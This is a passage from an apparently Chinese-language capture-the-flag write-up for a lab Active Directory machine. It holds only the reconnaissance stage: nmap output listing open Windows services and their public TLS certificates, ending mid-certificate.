


# recon
:::note
打该 box 时进行了多次重启, 因此有不同的 IP
:::
nmap 结果如下:
```
PORT      STATE  SERVICE       REASON          VERSION
53/tcp    open   domain        syn-ack ttl 128 Simple DNS Plus
80/tcp    open   http          syn-ack ttl 128 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open   kerberos-sec  syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2026-09-08 11:08:35Z)
135/tcp   open   msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open   netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp   open   ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-08T10:52:06
| Not valid after:  2027-09-08T10:52:06
| MD5:   3035:9142:71c4:e9d2:6db3:eef7:bcd4:f618
| SHA-1: 220b:3525:6ad7:13d8:ee08:c91f:0ba9:cacf:dbd5:5792
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABd5l36UBxyEsgAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjYwOTA4MTA1MjA2WhcNMjcw
| OTA4MTA1MjA2WjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuIpRgB6hsAQ3SJ2X28QiAe7dyvX+
| cufKmoJk2s3U1oXICPFlU2ah3x3mcSUQx9J3n9TUbXWUKpHpMK7hvQiJ1Nzk0ScT
| kVsdzVku0SaUcRxXC9Led6qUdkkW0WCCPf48ANbmxpHBh8me0kEwgR/c26VgTUei
| ZMpco/fWWKYOPKVaoiTkKwH2cCkgl3euqa824T6ZBHMlPvgZMAUsamxMgP5xZja9
| YF/DJjALGv6T6RjbNO3iu4huMIaiIUWiolozGO8ZpT6xaevpTGaLRXHBktlcyG3y
| lyYF2DKV4/9TYayHPjwlupNxJ8aMMVvtsntGsPIMkSlwvYIusbcYkBJj3QIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUtuOV
| PgGlHEviwyQff0+/Jy2x2gYwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA/BgNVHREEODA2oB8GCSsGAQQBgjcZAaAS
| BBD12WVTnqWuQJRIswNyBhF8ghNsYWJ5cmludGgudGhtLmxvY2FsME0GCSsGAQQB
| gjcZAgRAMD6gPAYKKwYBBAGCNxkCAaAuBCxTLTEtNS0yMS0xOTY2NTMwNjAxLTMx
| ODU1MTA3MTItMTA2MDQ2MjQtMTAwODANBgkqhkiG9w0BAQsFAAOCAQEAhVwZj0p5
| eeSwPbUfFREsn3kjt3lOv7DYG+0hWT3SSJ3LUaoikS23ed+KVlgyPdM5POIkEB8V
| 5lNkuTenieenepIF105ci/YfQCEvKaorhsjmKyov8QD0stMjBocBvNq8rGwnLra9
| WCdX1wLcBQx6MTaknH4w5org4eHcX6Imlk67bXaBNAsr/QrH7LWpWeT0+pB8IVH2
| oWuBwgjAIVY43RXuYWj7JT2Gzt4xfpkHoy+7BGmzQqQXeD34akdo2S5DxEaaaMCc
| iEGaH2itv0A79ARYUUPdixYhB1llJ+N8WyKbyGvEVDZrJ2Hbx0qjz+cSFXry6UvY
| BQTC3I4XFfVSGA==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
443/tcp   open   ssl/http      syn-ack ttl 128 Microsoft IIS httpd 10.0
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-12T07:26:00
| Not valid after:  2028-05-12T07:35:59
| MD5:   c249:3bc6:fd31:f2aa:83cb:2774:bc66:9151
| SHA-1: 397a:54df:c1ff:f9fd:57e4:a944:00e8:cfdb:6e3a:972b
| -----BEGIN CERTIFICATE-----
| MIIDaTCCAlGgAwIBAgIQUiXALddQ7bNA6YS8dfCQKTANBgkqhkiG9w0BAQsFADBH
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0xGTAX
| BgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjMwNTEyMDcyNjAwWhcNMjgwNTEy
| MDczNTU5WjBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZ
| FgN0aG0xGTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC/NNh6IN5jNgejLjqq9/RVDR42kxE0UZvnW6cB1LNb
| 0c4GyNmA1h+oLDpz1DonC3Yhp9XPQJIj4ejN1ErCQFMAxW4Xcd/Gt/LSCjdBHgmR
| R8wItUOpOoXkQtVRUE4I7vlWzxBuCVo644NaNzbfqVj7M1/nCBjn/PPd2fX3etSX
| EsaI6bYcdmKRimC/94UP8qTs6Z+KGasXUmb7Sj8vscncY8lFLe9qREuiRrom5Q8A
| NySO4t8mtmqIHrBb8zTTZ9N/HxEOPDafCSTOjRhDVsOXVuWllTJujjSu+jJlBiF/
| aiXM7mOmsxH1rqCUK9mhZFSf/OhvgsvAq66sTBs1huE1AgMBAAGjUTBPMAsGA1Ud
| DwQEAwIBhjAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQJcLfjxXJyk7BxDCNC
| pJb9vgIdEzAQBgkrBgEEAYI3FQEEAwIBADANBgkqhkiG9w0BAQsFAAOCAQEAmnUK
| Wj9AoBc2fuoVml4Orlg+ce7x+1IBTpqeKaobBx/ez+i5mV2U45MgPHPwjHzf15bn
| 0BnYpJUhlEljx7+voM+pfP/9Q21v5iXjgIcH9FLau2nqhcQOnttNj8I4aoDr5rRG
| fJJv+hAuNXxr/Fy5M7oghCpNqxseEU9OcgIPRHp6X/8bTtEYWaHnD3GS6uUR2jai
| PhReAcCPTbRwMRA3KsGRaBF3+PsIOL0JtCR+QGfOugPhUJFOU7w0dwbFmzfRcgKw
| bJhEy3o0FL5aqKVC823QJE7LosyLdtAqtZY7OgtT0Do7RZzdsZ1If0JmYmHTSRVz
| 8CvPpcCDp68aiTtqgA==
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
445/tcp   open   microsoft-ds? syn-ack ttl 128
464/tcp   open   kpasswd5?     syn-ack ttl 128
593/tcp   open   ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap      syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-08T10:52:06
| Not valid after:  2027-09-08T10:52:06
| MD5:   3035:9142:71c4:e9d2:6db3:eef7:bcd4:f618
| SHA-1: 220b:3525:6ad7:13d8:ee08:c91f:0ba9:cacf:dbd5:5792
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABd5l36UBxyEsgAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjYwOTA4MTA1MjA2WhcNMjcw
| OTA4MTA1MjA2WjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuIpRgB6hsAQ3SJ2X28QiAe7dyvX+
| cufKmoJk2s3U1oXICPFlU2ah3x3mcSUQx9J3n9TUbXWUKpHpMK7hvQiJ1Nzk0ScT
| kVsdzVku0SaUcRxXC9Led6qUdkkW0WCCPf48ANbmxpHBh8me0kEwgR/c26VgTUei
| ZMpco/fWWKYOPKVaoiTkKwH2cCkgl3euqa824T6ZBHMlPvgZMAUsamxMgP5xZja9
| YF/DJjALGv6T6RjbNO3iu4huMIaiIUWiolozGO8ZpT6xaevpTGaLRXHBktlcyG3y
| lyYF2DKV4/9TYayHPjwlupNxJ8aMMVvtsntGsPIMkSlwvYIusbcYkBJj3QIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUtuOV
| PgGlHEviwyQff0+/Jy2x2gYwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA/BgNVHREEODA2oB8GCSsGAQQBgjcZAaAS
| BBD12WVTnqWuQJRIswNyBhF8ghNsYWJ5cmludGgudGhtLmxvY2FsME0GCSsGAQQB
| gjcZAgRAMD6gPAYKKwYBBAGCNxkCAaAuBCxTLTEtNS0yMS0xOTY2NTMwNjAxLTMx
| ODU1MTA3MTItMTA2MDQ2MjQtMTAwODANBgkqhkiG9w0BAQsFAAOCAQEAhVwZj0p5
| eeSwPbUfFREsn3kjt3lOv7DYG+0hWT3SSJ3LUaoikS23ed+KVlgyPdM5POIkEB8V
| 5lNkuTenieenepIF105ci/YfQCEvKaorhsjmKyov8QD0stMjBocBvNq8rGwnLra9
| WCdX1wLcBQx6MTaknH4w5org4eHcX6Imlk67bXaBNAsr/QrH7LWpWeT0+pB8IVH2
| oWuBwgjAIVY43RXuYWj7JT2Gzt4xfpkHoy+7BGmzQqQXeD34akdo2S5DxEaaaMCc
| iEGaH2itv0A79ARYUUPdixYhB1llJ+N8WyKbyGvEVDZrJ2Hbx0qjz+cSFXry6UvY
| BQTC3I4XFfVSGA==
|_-----END CERTIFICATE-----
3268/tcp  open   ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-08T10:52:06
| Not valid after:  2027-09-08T10:52:06
| MD5:   3035:9142:71c4:e9d2:6db3:eef7:bcd4:f618
| SHA-1: 220b:3525:6ad7:13d8:ee08:c91f:0ba9:cacf:dbd5:5792
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABd5l36UBxyEsgAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjYwOTA4MTA1MjA2WhcNMjcw
| OTA4MTA1MjA2WjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuIpRgB6hsAQ3SJ2X28QiAe7dyvX+
| cufKmoJk2s3U1oXICPFlU2ah3x3mcSUQx9J3n9TUbXWUKpHpMK7hvQiJ1Nzk0ScT
| kVsdzVku0SaUcRxXC9Led6qUdkkW0WCCPf48ANbmxpHBh8me0kEwgR/c26VgTUei
| ZMpco/fWWKYOPKVaoiTkKwH2cCkgl3euqa824T6ZBHMlPvgZMAUsamxMgP5xZja9
| YF/DJjALGv6T6RjbNO3iu4huMIaiIUWiolozGO8ZpT6xaevpTGaLRXHBktlcyG3y
| lyYF2DKV4/9TYayHPjwlupNxJ8aMMVvtsntGsPIMkSlwvYIusbcYkBJj3QIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUtuOV
| PgGlHEviwyQff0+/Jy2x2gYwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA/BgNVHREEODA2oB8GCSsGAQQBgjcZAaAS
| BBD12WVTnqWuQJRIswNyBhF8ghNsYWJ5cmludGgudGhtLmxvY2FsME0GCSsGAQQB
| gjcZAgRAMD6gPAYKKwYBBAGCNxkCAaAuBCxTLTEtNS0yMS0xOTY2NTMwNjAxLTMx
| ODU1MTA3MTItMTA2MDQ2MjQtMTAwODANBgkqhkiG9w0BAQsFAAOCAQEAhVwZj0p5
| eeSwPbUfFREsn3kjt3lOv7DYG+0hWT3SSJ3LUaoikS23ed+KVlgyPdM5POIkEB8V
| 5lNkuTenieenepIF105ci/YfQCEvKaorhsjmKyov8QD0stMjBocBvNq8rGwnLra9
| WCdX1wLcBQx6MTaknH4w5org4eHcX6Imlk67bXaBNAsr/QrH7LWpWeT0+pB8IVH2
| oWuBwgjAIVY43RXuYWj7JT2Gzt4xfpkHoy+7BGmzQqQXeD34akdo2S5DxEaaaMCc
| iEGaH2itv0A79ARYUUPdixYhB1llJ+N8WyKbyGvEVDZrJ2Hbx0qjz+cSFXry6UvY
| BQTC3I4XFfVSGA==
|_-----END CERTIFICATE-----
3269/tcp  open   ssl/ldap      syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2026-09-08T11:09:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:labyrinth.thm.local
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-08T10:52:06
| Not valid after:  2027-09-08T10:52:06
| MD5:   3035:9142:71c4:e9d2:6db3:eef7:bcd4:f618
| SHA-1: 220b:3525:6ad7:13d8:ee08:c91f:0ba9:cacf:dbd5:5792
| -----BEGIN CERTIFICATE-----
| MIIGNjCCBR6gAwIBAgITSwAAABd5l36UBxyEsgAAAAAAFzANBgkqhkiG9w0BAQsF
| ADBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0x
| GTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjYwOTA4MTA1MjA2WhcNMjcw
| OTA4MTA1MjA2WjAeMRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuIpRgB6hsAQ3SJ2X28QiAe7dyvX+
| cufKmoJk2s3U1oXICPFlU2ah3x3mcSUQx9J3n9TUbXWUKpHpMK7hvQiJ1Nzk0ScT
| kVsdzVku0SaUcRxXC9Led6qUdkkW0WCCPf48ANbmxpHBh8me0kEwgR/c26VgTUei
| ZMpco/fWWKYOPKVaoiTkKwH2cCkgl3euqa824T6ZBHMlPvgZMAUsamxMgP5xZja9
| YF/DJjALGv6T6RjbNO3iu4huMIaiIUWiolozGO8ZpT6xaevpTGaLRXHBktlcyG3y
| lyYF2DKV4/9TYayHPjwlupNxJ8aMMVvtsntGsPIMkSlwvYIusbcYkBJj3QIDAQAB
| o4IDQjCCAz4wLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIA
| bwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8B
| Af8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZI
| hvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAEC
| MAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUtuOV
| PgGlHEviwyQff0+/Jy2x2gYwHwYDVR0jBBgwFoAUCXC348VycpOwcQwjQqSW/b4C
| HRMwgc4GA1UdHwSBxjCBwzCBwKCBvaCBuoaBt2xkYXA6Ly8vQ049dGhtLUxBQllS
| SU5USC1DQSxDTj1sYWJ5cmludGgsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGhtLERDPWxv
| Y2FsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1j
| UkxEaXN0cmlidXRpb25Qb2ludDCBwAYIKwYBBQUHAQEEgbMwgbAwga0GCCsGAQUF
| BzAChoGgbGRhcDovLy9DTj10aG0tTEFCWVJJTlRILUNBLENOPUFJQSxDTj1QdWJs
| aWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9u
| LERDPXRobSxEQz1sb2NhbD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9
| Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA/BgNVHREEODA2oB8GCSsGAQQBgjcZAaAS
| BBD12WVTnqWuQJRIswNyBhF8ghNsYWJ5cmludGgudGhtLmxvY2FsME0GCSsGAQQB
| gjcZAgRAMD6gPAYKKwYBBAGCNxkCAaAuBCxTLTEtNS0yMS0xOTY2NTMwNjAxLTMx
| ODU1MTA3MTItMTA2MDQ2MjQtMTAwODANBgkqhkiG9w0BAQsFAAOCAQEAhVwZj0p5
| eeSwPbUfFREsn3kjt3lOv7DYG+0hWT3SSJ3LUaoikS23ed+KVlgyPdM5POIkEB8V
| 5lNkuTenieenepIF105ci/YfQCEvKaorhsjmKyov8QD0stMjBocBvNq8rGwnLra9
| WCdX1wLcBQx6MTaknH4w5org4eHcX6Imlk67bXaBNAsr/QrH7LWpWeT0+pB8IVH2
| oWuBwgjAIVY43RXuYWj7JT2Gzt4xfpkHoy+7BGmzQqQXeD34akdo2S5DxEaaaMCc
| iEGaH2itv0A79ARYUUPdixYhB1llJ+N8WyKbyGvEVDZrJ2Hbx0qjz+cSFXry6UvY
| BQTC3I4XFfVSGA==
|_-----END CERTIFICATE-----
3389/tcp  open   ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Issuer: commonName=labyrinth.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-07T11:00:55
| Not valid after:  2027-03-09T11:00:55
| MD5:   406f:254a:0632:8cff:e45e:8456:f915:b968
| SHA-1: 36f9:2b8e:4a0c:7112:13c8:95ac:e688:1b02:c597:b154
| -----BEGIN CERTIFICATE-----
| MIIC6jCCAdKgAwIBAgIQGztWNDRgaL9BztdEiAUaSDANBgkqhkiG9w0BAQsFADAe
| MRwwGgYDVQQDExNsYWJ5cmludGgudGhtLmxvY2FsMB4XDTI2MDkwNzExMDA1NVoX
| DTI3MDMwOTExMDA1NVowHjEcMBoGA1UEAxMTbGFieXJpbnRoLnRobS5sb2NhbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMWdAYWVbD5nW0R51g6NbvGz
| aKSdeAPzRXjYtxiZZv7c6E0clP5ZKKW0TGfDOxK31NpZp+TXzaXIJzu0JEY5uMm5
| 41XDVzMeE5IXmI5X/hSvzWqKhSRtZ2O2SBlVSXGQoS+LbImUwVh5diEYS+BVRsKr
| 1lFDikGjjcq/wO8DoLmEz4Jh3OZTLBEfoI1dzdpQSwlis1uIiHVOf8bUw4HdiocG
| G1Na7PFqe2Fsv8vonFP6fYdPanc3aJ4DJ2xl3QERVGCJ0oy7TsIvNLpxUA/OZE9z
| K3td+OlidKIjENiRgGhQmBP43PbIlphJdYtJjPHT0wD9sErzchUwuNHtMI6SB50C
